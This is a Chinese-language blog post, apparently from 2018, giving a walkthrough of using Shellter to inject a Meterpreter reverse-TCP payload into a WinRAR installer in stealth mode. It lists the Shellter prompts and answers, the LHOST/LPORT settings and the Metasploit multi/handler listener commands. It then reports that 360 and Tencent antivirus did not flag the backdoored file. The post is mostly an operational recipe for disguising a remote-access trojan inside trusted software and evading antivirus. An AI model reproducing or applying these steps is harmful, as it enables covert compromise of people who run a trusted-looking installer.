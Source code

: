 ```yaml
---
layout:     post
title:      记一次使用Shellter做免杀过360过程
subtitle:   免杀入门学习
date:       2018-11-12
author:     蓝胖
header-img: img/post-bg-2018-11-12.jpg
catalog: true
tags:
    - 免杀
    - Shellter



---
```


>“如果每个人都理解你，你得普通成什么样”


 > Shellter是一个开源的免杀工具，利用动态Shellcode注入来实现免杀的效果。好神奇阿，有空可以详细研究研究

# 环境及工具：
KALI	192.168.117.131
目标		192.168.117.1

[Shellter](https://www.shellterproject.com/download/)
[![iLE1A0.md.jpg](https://s1.ax1x.com/2018/11/12/iLE1A0.md.jpg)](https://imgchr.com/i/iLE1A0)

[notepad](https://notepad-plus-plus.org/download/v7.5.9.html)
[![iLEMBn.md.png](https://s1.ax1x.com/2018/11/12/iLEMBn.md.png)](https://imgchr.com/i/iLEMBn)

# 进行免杀
下载Shellter，进入目录输入：`wine shellter.exe` 运行。第一次运行比较慢，去嘘嘘活动下。出现如下界面代表运行成功。 
[![iLEnXj.md.jpg](https://s1.ax1x.com/2018/11/12/iLEnXj.md.jpg)](https://imgchr.com/i/iLEnXj)
我第一次用的时候提示我没有装 wine，按照提示 apt-get wine就行。
提示下：如果半天没有反应，按下回车就行了
**Choose Operation Mode - Auto/Manual (A/M/H): A**  
模式选择，选手动模式 A 
A 自动添加后门、M 高级用法、H 帮助

**PE Target: /root/Desktop/wrar.exe**
需要加包的路径+名称
[![iLEQ7q.md.png](https://s1.ax1x.com/2018/11/12/iLEQ7q.md.png)](https://imgchr.com/i/iLEQ7q)


**Enable Stealth Mode? (Y/N/H): Y**   
是否启用隐身模式，启用 Y
[![iLEZ9S.md.jpg](https://s1.ax1x.com/2018/11/12/iLEZ9S.md.jpg)](https://imgchr.com/i/iLEZ9S)

**Use a listed payload or custom? (L/C/H): L**
使用攻击模块列表或者自定义？ 

**Select payload by index: 1**

**SET LHOST: 192.168.117.131**
设置接收反弹的IP

**SET LPORT: 8088**
设置接收反弹的端口

[![iLEEh8.md.jpg](https://s1.ax1x.com/2018/11/12/iLEEh8.md.jpg)](https://imgchr.com/i/iLEEh8)
[![iLEe1g.md.jpg](https://s1.ax1x.com/2018/11/12/iLEe1g.md.jpg)](https://imgchr.com/i/iLEe1g)

# 设置监听
进入MSF控制台输入如下
`use exploit/multi/handler`
`set payload windows/meterpreter/reverse_tcp`
`set lhost 192.168.117.131`
`set lport 8088`
`exploit`
[![iLEmcQ.md.jpg](https://s1.ax1x.com/2018/11/12/iLEmcQ.md.jpg)](https://imgchr.com/i/iLEmcQ)
360杀毒截图,腾讯管家也行，朋友电脑没有截图
[![iLEKns.md.jpg](https://s1.ax1x.com/2018/11/12/iLEKns.md.jpg)](https://imgchr.com/i/iLEKns)

